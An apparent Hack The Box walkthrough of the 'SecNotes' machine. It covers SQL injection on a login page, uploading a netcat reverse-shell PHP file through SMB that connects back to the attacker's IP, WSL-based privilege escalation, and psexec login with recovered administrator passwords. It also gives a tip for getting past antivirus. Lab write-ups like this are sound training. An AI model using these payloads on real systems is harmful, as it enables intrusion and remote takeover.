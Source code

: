 ```yaml
---
description: https://app.hackthebox.com/machines/151
---
```


# 🎶 SecNotes

<figure><img src="../../.gitbook/assets/image (3) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

After the nmap scan, we see the web server is a login page:&#x20;

<figure><img src="../../.gitbook/assets/image (4) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

I try and create an account and log in->

<figure><img src="../../.gitbook/assets/image (5) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (6) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

We get access to a dashboard and a possible username

let's try unlogging and abuse this web app with SQLis

<figure><img src="../../.gitbook/assets/image (7) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

when we connect with the credentials it fills in an error, good news

<figure><img src="../../.gitbook/assets/image (8) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

We try with some more SQLi patterns and end up having database infos leaked within the dashboard :

<figure><img src="../../.gitbook/assets/image (9) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption><p>'OR 1 OR'</p></figcaption></figure>

{% embed url="https://book.hacktricks.xyz/pentesting-web/sql-injection" %}

<figure><img src="../../.gitbook/assets/image (10) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

We find what seems to be credentials for an SMB share?

Other than the manual exploitation we could use psexec:

```
psexec.py tyler:'92g!mA8BGjOirkL%OG*&'@10.129.227.170
```

It did not work :

<figure><img src="../../.gitbook/assets/image (11) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

So let's go manually with passwd **92g!mA8BGjOirkL%OG\*&**

```
smbclient \\\\10.129.227.170\\new-site -U tyler
```

<figure><img src="../../.gitbook/assets/image (12) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

now create a file called 'shell.php'

```
<?php system('nc.exe -e cmd.exe 10.10.14.94 9898') ?>
```

and then copy on your root directory netcat:

```
locate nc.exe
cp /usr/share/sqlninja/apps/nc.exe nc.exe
```

and on the smb share of tyler:

```
put shell.php
put nc.exe
```

<figure><img src="../../.gitbook/assets/image (13) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Using the `put` command to upload a reverse shell and your netcat executable to an SMB share on the target system, you're creating a foothold on the target system. Even if your initial access is lost, you can regain access through the uploaded tools and i'll be able to call netcat and so trigger my reverse shell to obtain a shell ->

So now i need to trigger my shell.php file, after some looking around i found where were stored the files:

<figure><img src="../../.gitbook/assets/image (14) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

So i simply request: [http://10.129.163.46:8808/shell.php](http://10.129.163.46:8808/shell.php)

and get a shell:

<figure><img src="../../.gitbook/assets/image (15) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

and go and grab the flag:

<figure><img src="../../.gitbook/assets/image (16) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

For the elevation let's dive into subsystems:

{% embed url="https://swisskyrepo.github.io/InternalAllTheThings/redteam/escalation/windows-privilege-escalation/#eop-windows-subsystem-for-linux-wsl" %}

first we saw that we needed to locate bash.exe, you can use a recursive search this way:

```
where /R c:\windows bash.exe
```

<figure><img src="../../.gitbook/assets/image (17) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

same for wsl.exe:

```
where /R c:\windows wsl.exe
```

<figure><img src="../../.gitbook/assets/image (18) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

quick explanation on why we're doing this:

<figure><img src="../../.gitbook/assets/image (19) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

after trying to get a bash shell by triggering bash.exe, we get some useful infos:

<figure><img src="../../.gitbook/assets/image (21) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

We are root but on a linux machine of secnotes, so not really what we are looking for

we are in a non tty, let's try to escape

for reminder, a non tty refers to a type of device or terminal that does not have interactive capabilities like a traditional teletypewriter or terminal.

Let's try to get a shell via a python import:

```
python -c "import pty;pty.spawn('/bin/bash')"
```

* `python`: This invokes the Python interpreter.
* `-c`: This option allows you to pass a command directly to Python for execution.
* `"import pty; pty.spawn('/bin/bash')"`: This is the Python code that gets executed.
  * `import pty`: This imports the `pty` module, which provides functions for controlling pseudo-terminals.
  * `pty.spawn('/bin/bash')`: This line spawns a new interactive shell (`/bin/bash`). When this line is executed, it effectively starts a new shell session within the current terminal session. The `pty.spawn()` function creates a new pseudo-terminal and executes the specified command (`/bin/bash`) within it. This results in a fully interactive shell prompt, allowing the user to execute commands and interact with the system as if they were using a normal terminal.

<figure><img src="../../.gitbook/assets/image (22) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

{% embed url="https://book.hacktricks.xyz/generic-methodologies-and-resources/shells/full-ttys" %}

{% embed url="https://wiki.zacheller.dev/pentest/privilege-escalation/spawning-a-tty-shell" %}

now let's look what we have in the root folder:&#x20;

<figure><img src="../../.gitbook/assets/image (23) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

after looking through stuff we encounter:&#x20;

<figure><img src="../../.gitbook/assets/image (24) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

that's a quick and easy win, let's try some other stuff

Impacket Toolkit - [https://github.com/SecureAuthCorp/impacket](https://github.com/SecureAuthCorp/impacket)

first, let's install impacket

```
psexec.py administrator:'u6!4ZwgwOM#^OBf#Nwnh'@10.129.163.46
```

* `psexec.py`: This likely refers to a Python script named `psexec.py`. This script is likely designed to replicate the functionality of the original `PsExec` tool developed by Sysinternals, which allows for the execution of commands on remote Windows systems.
* `administrator:'u6!4ZwgwOM#^OBf#Nwnh'`: This part of the command specifies the username and password to authenticate to the target system. In this case, the username is `administrator` and the password appears to be `'u6!4ZwgwOM#^OBf#Nwnh'`. The password is enclosed in single quotes to ensure that special characters within it are properly interpreted.
* `@10.129.163.46`: This specifies the IP address or hostname of the target Windows system. The `psexec.py` script will attempt to connect to this system using the provided credentials and execute commands remotely.

<figure><img src="../../.gitbook/assets/image (25) (1) (1).png" alt=""><figcaption></figcaption></figure>

And just go and fetch the file

<figure><img src="../../.gitbook/assets/image (26) (1) (1).png" alt=""><figcaption></figcaption></figure>

If A/V is blocking psexec, you can use smbexec or winexe

<figure><img src="../../.gitbook/assets/image (614).png" alt=""><figcaption></figcaption></figure>
